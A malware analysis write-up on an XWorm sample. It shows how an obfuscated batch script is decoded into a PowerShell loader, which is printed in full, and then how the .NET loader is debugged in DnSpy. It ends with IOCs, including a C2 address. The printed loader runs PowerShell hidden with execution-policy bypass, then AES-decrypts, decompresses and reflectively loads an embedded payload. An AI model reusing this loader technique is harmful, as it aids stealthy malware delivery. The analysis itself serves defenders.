 ## XWorm - Batch Deobfuscation - .NET Loader

This sample starts off with some batch & PowerShell deobfuscation, revealing a .NET loader which we can debug using DnSpy and module breakpoints to reveal the payload.

SHA 256: e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f

## Initial Batch Script

This sample starts with an obfuscated batch script which looks like the following:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/15a2ff27-e269-40d7-96fc-586d9093245b)

From the fourth line onward we can see that many set commands are taking place, we also see a lot of commented-out strings which don't seem to make a lot of sense right now, denoted by the ::

Towards the end of the script, it appears that those variables are being called and executed:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/56b8f863-19b1-42db-951a-7bfcd968584e)

A quick way to make sense of this script is by commenting out the lines that clear the terminal and exit, and adding "echo" commands before the variables are called.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/be36953d-e183-4e48-9ff8-f861c071a512)

Now if we execute this new script, we get the following:

``` powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')
('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine);foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4); break; }; };$_CASH_tFaoL =
[System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '');$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL);$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged;$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC;$_CASH_pFavC.Padding =
[System.Security.Cryptography.PaddingMode]::PKCS7;$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=');$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==');$_CASH_traoF =
$_CASH_pFavC.CreateDecryptor();$_CASH_epUJg = $_CASH_traoF.TransformFinalBlock($_CASH_epUJg, 0, $_CASH_epUJg.Length);$_CASH_traoF.Dispose();$_CASH_pFavC.Dispose();$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg);$_CASH_DLltN = New-Object System.IO.MemoryStream;$_CASH_VzeZp = New-Object
System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress);$_CASH_VzeZp.CopyTo($_CASH_DLltN);$_CASH_VzeZp.Dispose();$_CASH_SjOoQ.Dispose();$_CASH_DLltN.Dispose();$_CASH_epUJg = $_CASH_DLltN.ToArray();$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')
($_CASH_epUJg);$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint;$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```
We can make this a bit easier to read by replacing all semi-colons with new lines:

```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine)
foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4)
 break
 }
 }
$_CASH_tFaoL = [System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '')
$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL)
$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged
$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC
$_CASH_pFavC.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=')
$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==')
$_CASH_traoF = $_CASH_pFavC.CreateDecryptor()
$_CASH_epUJg = $_CASH_traoF.TransformFinalBlock($_CASH_epUJg, 0, $_CASH_epUJg.Length)
$_CASH_traoF.Dispose()
$_CASH_pFavC.Dispose()
$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg)
$_CASH_DLltN = New-Object System.IO.MemoryStream
$_CASH_VzeZp = New-Object System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress)
$_CASH_VzeZp.CopyTo($_CASH_DLltN)
$_CASH_VzeZp.Dispose()
$_CASH_SjOoQ.Dispose()
$_CASH_DLltN.Dispose()
$_CASH_epUJg = $_CASH_DLltN.ToArray()
$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($_CASH_epUJg)
$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint
$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```

**Command Line Breakdown:**
```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
```
It appears that the script is firstly copying PowerShell and moving it to the same directory & filename as the executed script, changing directory to that directory, and executing the newly copied binary of PowerShell.
```powershell
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')
('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine)
```
A command is executed, with the reversed string of "ReadAllText" and it reads the initial batch script.
```powershell
foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4)
```
From the initial script, it is looking for instances that start with ":: @" and takes everything from the 4th substring onwards, ie, all the content after the "::@"
The result is being saved as variable name "_CASH_tFaoL"
```powershell
$_CASH_tFaoL = [System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '')
```
The contents of _CASH_tFaoL is read, and all instances of "_CASH_" are replaced with nothing.
```powershell
$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL)
```
The string is decoded from Base64.
```powershell
$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged
$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC
$_CASH_pFavC.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=')
$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==')
```
The decoded text is being AES-decrypted with Key "GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=" and IV "5IgM8xAuhLV8mV1KzrCEvg==".
```powershell
$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg)
$_CASH_DLltN = New-Object System.IO.MemoryStream
$_CASH_VzeZp = New-Object System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress)
```
The decrypted text is being decompressed with gunzip.
```powershell
$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($_CASH_epUJg)
$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint
$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```
The contents of which are being loaded/executed in memory.

Now that we know what the script is doing, we'll search for instances of "::@" in the initial script, perform the operations and we should be left with some form of executable code.

We see our string starting with "::@", which is a huge blob of text.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d8d60598-7491-4893-8892-2d4d563c8206)

We'll take this blob and throw it in CyberChef with the following operators to decode and decrypt the content as the script does.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d45309f5-a055-4251-b051-96766c3050b3)

We are left with an executable file.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/0b251516-6528-43ff-b54a-ced8d90e169f)

## .NET Analysis

Detect It Easy tells us that this is a .NET binary, and it has a fairly interesting entropy level, around mid-way but it remains consistent.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c6ef6c1c-b1dd-4fdc-85d8-f9a6ed669266)

Loading the executable into DnSpy we can see it is heavily obfuscated, but there are references to LoadPE. This, and the level of entropy suggests it's likely a loader and not our final payload.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/23ac0071-6c6b-4f02-b400-45a40b3ab74e)

Knowing this, we can set a module breakpoint and try to extract anything interesting that is being loaded in memory.

Head to Module Breakpoints and set a breakpoint for * (anything)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/31865716-bb47-45d9-aabb-332c2cc0f323)

Now we begin to debug the executable, taking note of all loaded modules.

As we step through, there is a very interesting module being loaded which we should interrogate further.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b4c94a3e-5255-4d35-b37c-b36ba64ba74e)

We can right-click "Load Module" to decompile it in our current DnSpy session.

This module doesn't appear to be obfuscated and we can instantly see where the Settings are stored.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9e5f87ea-7e84-4d94-8ad4-16fef0a92b75)

**Settings:**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9b67b4f1-e3a9-4684-9cc1-009723118aff)


IOCs:

IPv4: 65.1.224[.]214

SHA 256: E5DAC6F6D2AB4C479C5C3E91064F335DE141C8399BD93F8267E13F134C578C0F

SHA 256: EC7890D7D688DAC4EF8EF6B6E2A832280EA47BF404B851B97CDF7C709C389E65

SHA 256: CBB7FC940A1E9B3DADB1EC625554325B5DD9A95E34A05A0EC6F7206D2128DAB9








